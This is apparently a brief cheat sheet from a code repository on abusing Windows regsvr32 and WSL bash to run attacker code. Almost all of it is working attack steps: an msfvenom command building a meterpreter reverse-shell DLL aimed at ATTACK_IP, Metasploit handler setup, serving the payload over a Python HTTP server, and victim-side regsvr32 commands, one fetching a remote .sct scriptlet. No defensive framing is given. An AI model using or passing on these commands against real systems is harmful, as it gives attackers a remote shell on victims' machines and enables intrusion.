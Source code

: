 ### Tools: regsvr32, Bash

# REGSVR32

#### 1) msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=PORT -f dll -a x86 > example.dll

#### 2) msfconsole -q

#### 3) use exploit/multi/handler

#### 4) set payload windows/meterpreter/reverse_tcp

#### 5) set LHOST IP

#### 6) set LPORT PORT

#### 7) exploit

#### 8) python3 -m http.server PORT 

#### 9) Victim: regsvr32.exe c:\path\to\example.dll OR 

#### regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\example.dll

## BASH 

#### bash -c calc.exe (Require Windows Subsystem Linux (WSL) to use bash)
